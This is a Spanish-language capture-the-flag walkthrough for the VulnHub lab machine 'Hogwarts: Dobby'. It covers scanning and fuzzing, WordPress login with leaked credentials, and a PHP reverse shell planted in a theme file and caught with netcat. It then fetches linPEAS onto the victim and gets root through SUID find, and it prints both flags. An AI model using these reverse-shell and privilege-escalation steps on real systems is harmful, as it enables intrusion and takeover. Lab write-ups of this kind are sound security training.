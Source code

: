 <h1 align="center">
<br>
  <img src="http://pm1.narvii.com/6428/fb6021f8782bf80369c95fb2940fb77feb9813d0_00.jpg" alt="Front-End Checklist" width="250">
  <br>
  Hogwarts: Dobby
  <br>
</h1>

<h4 align="center">Maquina creada por <img src="https://img.icons8.com/android/344/twitter.png" alt="Front-End Checklist" width="12">@BertrandLorent9</h4>
<h4 align="center">Aquí puedes descargarte la <a href="https://www.vulnhub.com/entry/hogwarts-dobby,597/">máquina</a> y ver una descripción de ella</h4>

---

# Índice

- [Recopilación de información](#recopilación-de-información)
  - [Nmap](#nmap)
  - [Fuzz](#fuzz)
- [Búsqueda de vulnerabilidades](#búsqueda-de-vulnerabilidades)
  - [Wordpress](#wordpress)
- [Explotación de vulnerabilidades](#explotación-de-vulnerabilidades)
  - [Reverse Shell](#reverse-shell)
- [Post-explotación](#post-explotación)
  - [Foothold](#foothold)
  - [Búsqueda de vulnerabilidades](#búsqueda-de-vulnerabilidades-1)
       - [Linpeas](#linpeas)
  - [Explotación de vulnerabilidades](#explotación-de-vulnerabilidades-1)
       - [SUID](#suid)
- [Información Adicional](#información-adicional)


---

## Recopilación de información

Aquí veremos que esta conectado a la subred, los puerto abiertos, las paginas web, etc.

### Nmap

Veremos que redes estan conectadas a esta subred con este comando:

```nmap -sP 192.168.221.0/24```

Para ver los puertos abiertos que tiene la red utilizaremos este comando:

```nmap -sV -sC 192.168.221.5```

### Fuzz

Para fuzzear la web usaremos este comando con una wordlist que tengamos:

```ffuf -c -w /opt/wordlists/SecLists/Discovery/Web-Content/common.txt -u http://192.168.221.5/FUZZ```

> ⚠️ Importante poner FUZZ alfinal de la URL

Buscando y rebuscando encontramos unas cuantas webs:

* http://192.168.221.5/log
```
#pass:OjppbGlrZXNvY2tz --> ilikesocks
hint --> /DiagonAlley
```
* http://192.168.221.5/alohomora/
```
Draco's password is his house ;)
```
> **slytherin es la casa de Draco Malfoy**

El siguiente ffuf sera para **/DiagonAlley** y descubriremos que es un Wordpress

```ffuf -c -w /opt/wordlists/SecLists/Discovery/Web-Content/common.txt -u http://192.168.221.5/DiagonAlley/FUZZ```

## Búsqueda de vulnerabilidades

### Wordpress

Al ver que tenemos un wordpress probamos las credenciales de **draco** como usuario y **slytherin** como contraseña

Explorando podemos ver que podemos editar el **404.php** --> **Editor** --> **Temas en Apariencia**

## Explotación de vulnerabilidades

### Reverse Shell

He utilizado esta [página web](https://www.hackingarticles.in/wordpress-reverse-shell/) para entender como explotar esta vulnerabilidad.

Ademas añado esta otra [página](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php) para la reverse shell de php

> Modificar lo necesario de la reverse shell

Lo que procederemos ha hacer es añadir la reverse shell en el texto del **404.php**

Antes de ejecutar la url pondremos el comando para abrir el puerto puesto en la reverse shell:

```rlwrap nc -nvlp 4444```

La url es esta: ```http://192.168.221.5/DiagonAlley/wp-content/themes/amphibious/404.php```

Posteriormente a esto, haremos que la shell sea interactiva con este comando:

```python3 -c 'import pty; pty.spawn("/bin/bash")'```

## Post-explotación

### Foothold

Nos conectaremos al usuario **dobby** con este comando:

```su dobby```

> La contraseña la hemos sacado anteriormente que es esta **ilikesocks**

Buscaremos la primera flag en el usuario dobby, en esta maquina no podemos utilizar **cat** para leer archivos, asi que he optado por usar el comando **less**

Aquí tenemos la primera flag: **flag1{28327a4964cb391d74111a185a5047ad}**

## Búsqueda de vulnerabilidades

### Linpeas

Utilizaremos el [linPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS) para enumerar las possibles vulnerabilidades que puede tener ese sistema para la escalada de privilegios.

Para enviar el [linPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS) con http usaremos esta forma:

En el **Server/Local** pondremos este comando: ```sudo python3 -m http.server 80```

En el **Cliente/Remota/Victima** pondremos este comando: ```wget 192.168.221.4/linpeas.sh```

## Explotación de vulnerabilidades

### SUID

Una de las mayores vulnerabilidades encontrada por el [linPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS) es la escalda de privilegios con el **/usr/bin/find**

He utilizado esta [página web](https://gtfobins.github.io/gtfobins/find/#suid) para sacar un payload con la funcion de bypasear la seguridad y conseguir el root

Pondremos este comando sacado de la anterior página web:

```/usr/bin/find . -exec /bin/sh -p \; -quit```

Y aquí tenemos la segunda flag:
```
                                         _ __
        ___                             | '  \
   ___  \ /  ___         ,'\_           | .-. \        /|
   \ /  | |,'__ \  ,'\_  |   \          | | | |      ,' |_   /|
 _ | |  | |\/  \ \ |   \ | |\_|    _    | |_| |   _ '-. .-',' |_   _
// | |  | |____| | | |\_|| |__    //    |     | ,'_`. | | '-. .-',' `. ,'\_
\\_| |_,' .-, _  | | |   | |\ \  //    .| |\_/ | / \ || |   | | / |\  \|   \
 `-. .-'| |/ / | | | |   | | \ \//     |  |    | | | || |   | | | |_\ || |\_|
   | |  | || \_| | | |   /_\  \ /      | |`    | | | || |   | | | .---'| |
   | |  | |\___,_\ /_\ _      //       | |     | \_/ || |   | | | |  /\| |
   /_\  | |           //_____//       .||`      `._,' | |   | | \ `-' /| |
        /_\           `------'        \ |   AND        `.\  | |  `._,' /_\
                                       \|       THE          `.\
                                            _  _  _  _  __ _  __ _ /_
                                           (_`/ \|_)/ '|_ |_)|_ |_)(_
                                           ._)\_/| \\_,|__| \|__| \ _)
                                                           _ ___ _      _
                                                          (_` | / \|\ ||__
                                                          ._) | \_/| \||___


root{63a9f0ea7bb98050796b649e85481845!!}
```

## Información Adicional

Páginas web utilizadas:

- [PHP Reverse Shell](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php) - Reverse Shell PHP

- [Wordpress Reverse Shell](https://www.hackingarticles.in/wordpress-reverse-shell/) - Explotar la vulnerabilidad del wordpress con un código malicioso

- [linPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS) - Enumeración de escalada de privilegios local.

- [SUID](https://gtfobins.github.io/gtfobins/find/#suid) - Escalada de privilegios SUID con el find

**[⬆ back to top](#-----hogwarts-dobby-)**
